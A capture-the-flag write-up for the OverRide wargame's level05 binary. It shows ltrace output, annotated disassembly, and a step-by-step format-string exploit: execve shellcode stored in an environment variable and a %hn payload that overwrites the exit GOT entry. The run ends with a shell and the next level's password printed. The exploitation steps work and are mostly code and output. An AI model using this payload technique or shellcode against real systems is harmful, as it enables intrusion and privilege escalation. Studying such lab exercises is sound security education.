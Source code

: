     level05@OverRide:~$ ./level05
    whoami
    whoami

***

    level05@OverRide:~$ ltrace ./level05
    __libc_start_main(0x8048444, 1, -10300, 0x8048520, 0x8048590 <unfinished ...>
    fgets(whoami
    "whoami\n", 100, 0xf7fcfac0)                                                                        = 0xffffd6b8
    printf("whoami\n"whoami
    )                                                                                        = 7
    exit(0 <unfinished ...>
    +++ exited (status 0) +++

***

    (gdb) disass main
    Dump of assembler code for function main:
    0x08048444 <+0>:     push   %ebp
    0x08048445 <+1>:     mov    %esp,%ebp
    0x08048447 <+3>:     push   %edi
    0x08048448 <+4>:     push   %ebx
    0x08048449 <+5>:     and    $0xfffffff0,%esp
    0x0804844c <+8>:     sub    $0x90,%esp              // 0x90 = 144
    0x08048452 <+14>:    movl   $0x0,0x8c(%esp)         // 0x8c = 140
    0x0804845d <+25>:    mov    0x80497f0,%eax          // stdin
    0x08048462 <+30>:    mov    %eax,0x8(%esp)
    0x08048466 <+34>:    movl   $0x64,0x4(%esp)         // 0x64 = 100
    0x0804846e <+42>:    lea    0x28(%esp),%eax         // 0x28 = 40
    0x08048472 <+46>:    mov    %eax,(%esp)
    0x08048475 <+49>:    call   0x8048350 <fgets@plt>
    0x0804847a <+54>:    movl   $0x0,0x8c(%esp)
    0x08048485 <+65>:    jmp    0x80484d3 <main+143>
    0x08048487 <+67>:    lea    0x28(%esp),%eax
    0x0804848b <+71>:    add    0x8c(%esp),%eax
    0x08048492 <+78>:    movzbl (%eax),%eax
    0x08048495 <+81>:    cmp    $0x40,%al               // 0x40 = '@'
    0x08048497 <+83>:    jle    0x80484cb <main+135>
    0x08048499 <+85>:    lea    0x28(%esp),%eax
    0x0804849d <+89>:    add    0x8c(%esp),%eax
    0x080484a4 <+96>:    movzbl (%eax),%eax
    0x080484a7 <+99>:    cmp    $0x5a,%al               // 0x5a = 'Z'
    0x080484a9 <+101>:   jg     0x80484cb <main+135>
    0x080484ab <+103>:   lea    0x28(%esp),%eax
    0x080484af <+107>:   add    0x8c(%esp),%eax
    0x080484b6 <+114>:   movzbl (%eax),%eax
    0x080484b9 <+117>:   mov    %eax,%edx
    0x080484bb <+119>:   xor    $0x20,%edx              // 0x20 = 32
    0x080484be <+122>:   lea    0x28(%esp),%eax
    0x080484c2 <+126>:   add    0x8c(%esp),%eax
    0x080484c9 <+133>:   mov    %dl,(%eax)
    0x080484cb <+135>:   addl   $0x1,0x8c(%esp)
    0x080484d3 <+143>:   mov    0x8c(%esp),%ebx
    0x080484da <+150>:   lea    0x28(%esp),%eax
    0x080484de <+154>:   movl   $0xffffffff,0x1c(%esp)
    0x080484e6 <+162>:   mov    %eax,%edx
    0x080484e8 <+164>:   mov    $0x0,%eax
    0x080484ed <+169>:   mov    0x1c(%esp),%ecx
    0x080484f1 <+173>:   mov    %edx,%edi
    0x080484f3 <+175>:   repnz scas %es:(%edi),%al      // strlen
    0x080484f5 <+177>:   mov    %ecx,%eax
    0x080484f7 <+179>:   not    %eax
    0x080484f9 <+181>:   sub    $0x1,%eax
    0x080484fc <+184>:   cmp    %eax,%ebx
    0x080484fe <+186>:   jb     0x8048487 <main+67>
    0x08048500 <+188>:   lea    0x28(%esp),%eax
    0x08048504 <+192>:   mov    %eax,(%esp)
    0x08048507 <+195>:   call   0x8048340 <printf@plt>
    0x0804850c <+200>:   movl   $0x0,(%esp)
    0x08048513 <+207>:   call   0x8048370 <exit@plt>
    End of assembler dump.

***

This program basically takes string from stdin into buffer of size 100 and converts it to lowercase (A-Z -> a-z) and then prints it back.
We are throwing buffer straight into printf. It works as expected when the input is normal text but if the input is C format strings.

For example this way we get hexadecimal values from the stack:

***

    level05@OverRide:~$ ./level05
    %x%x%x%x
    64f7fcfac0f7ec3af9ffffd6df

***

Let's use it to find offset of input string on stack. `aaaa` if hex is 61616161:

***

    level05@OverRide:~$ ./level05
    aaaa %x %x %x %x %x %x %x %x %x %x %x
    aaaa 64 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 20782520

***

Offset = 10

%x -> Output Hexadecimal Number
%n -> Writes the number of bytes till the format string to memory

Another point of vulnerability is exit function. 

In order to conserve RAM programs share libraries and that means that memory location of a library routine varies and PLT (Procedure Linkage Table) and GOT (Global Offset Table) are used to hold the current addresses of library functions.

We can see Dynamic Relocation entries with objdump:

***

    level05@OverRide:~$ objdump -R level05

    level05:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE
    080497c4 R_386_GLOB_DAT    __gmon_start__
    080497f0 R_386_COPY        stdin
    080497d4 R_386_JUMP_SLOT   printf
    080497d8 R_386_JUMP_SLOT   fgets
    080497dc R_386_JUMP_SLOT   __gmon_start__
    080497e0 R_386_JUMP_SLOT   exit
    080497e4 R_386_JUMP_SLOT   __libc_start_main

***

The address of "exit" is stored at 0x080497e0. If we can write to that address, we can take over the program's execution when it calls "exit@plt".

Now we should put shellcode to open bash into env variable and find its address:

***

    export EGG=$(python -c "print '\x90' * 70 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

    level05@OverRide:~$ gdb level05
    (gdb) b main
    Breakpoint 1 at 0x8048449
    (gdb) r
    Starting program: /home/users/level05/level05

    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/10s *((char**)environ)
    [...]
    0xffffd8e2:      "EGG=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
    [...]

***

Shellcode EGG is at address 0xffffd8e2 + 10(offset) = 0xffffd8ec

We are going to print shellcode EGG at exit: 4 lower bytes 0xd8ec (decimal 55532) at 0x080497e0 and 4 higher bytes  0xffff (decimal 65535) at 0x080497e2

But we will need to move this addresses around (%hn means to not write only a short value (usually 2 bytes) at the given address):

***

    level05@OverRide:~$ python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%0x%hn'" > /tmp/lvl5
    level05@OverRide:~$ gdb level05
    (gdb) r < /tmp/lvl5
    Starting program: /home/users/level05/level05 < /tmp/lvl5
    �nope�64f7fcfac0f7ec3af9ffffd65fffffd65e0ffffffffffffd6e40

    Program received signal SIGSEGV, Segmentation fault.
    0x08040040 in ?? ()
    (gdb) p (0xd8ec - 0x0040) + 1
    $1 = 55469

    python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%55469x%hn%0x%hn'" > /tmp/lvl5
    [...]
    Program received signal SIGSEGV, Segmentation fault.
    0xd8f4d8ec in ?? ()
    (gdb) p (0xffff - 0xd8f4) + 8
    $1 = 10003

***

We have our offsets for low and high parts of address and it is time to try them:

***

    (python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%55469x%hn%10003x%hn'" ; cat -) | ./level05
    whoami
    level06
    cat /home/users/level06/.pass
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

